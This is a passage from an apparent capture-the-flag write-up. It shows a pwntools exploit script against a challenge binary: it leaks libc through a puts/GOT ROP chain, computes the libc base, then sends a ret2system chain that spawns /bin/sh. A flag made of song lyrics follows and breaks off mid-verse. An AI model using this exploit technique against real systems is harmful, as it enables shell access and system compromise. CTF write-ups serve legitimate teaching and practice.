 ```python
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================
# Stack
def ret2system():
    rop = ROP(libc)
    rop.system(next(libc.search(b'/bin/sh')))
    return rop.chain()


def exploit():
    global io
    io = initialize()
    offset = 264
    rop = ROP(elf)
    rop.puts(elf.got['gets'])
    rop.raw(rop.ret.address)
    rop.main()
    payload = flat({offset: rop.chain()})
    io.sendlineafter("pwning from the start okay?", payload)
    io.recvline()
    gets = u64(io.recvline().strip().ljust(0x8, b'\x00'))
    libc.address = gets - libc.sym['gets']
    log.info("Gets address: %#x", gets)
    log.info("Libc base address: %#x", libc.address)
    payload = flat({offset: ret2system()})
    io.sendlineafter("pwning from the start okay?", payload)

    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ACE{
    Don't you notice how
    I get quiet when there's no one else around?
    Me and you and awkward silence
    Don't you dare look at me that way
    I don't need reminders of how you don't feel the same
    Oh, the burning pain
    Listening to you harp on 'bout some new soulmate
    "She's so perfect, " blah, blah, blah
    Oh, how I wish you'll wake up one day
    Run to me, confess your love, at least just let me say
    That when I talk to you, oh, Cupid walks right through
    And shoots an arrow through my heart
    And I sound like a loon, but don't you feel it too?
    Confess I loved you from the start
    What's a girl to do?
    Lying on my bed, staring into the blue
    Unrequited, terrifying
    Love is driving me a bit insane
    Have to get this off my chest
    I'm telling you today
    That when I talk to you, oh, Cupid walks right through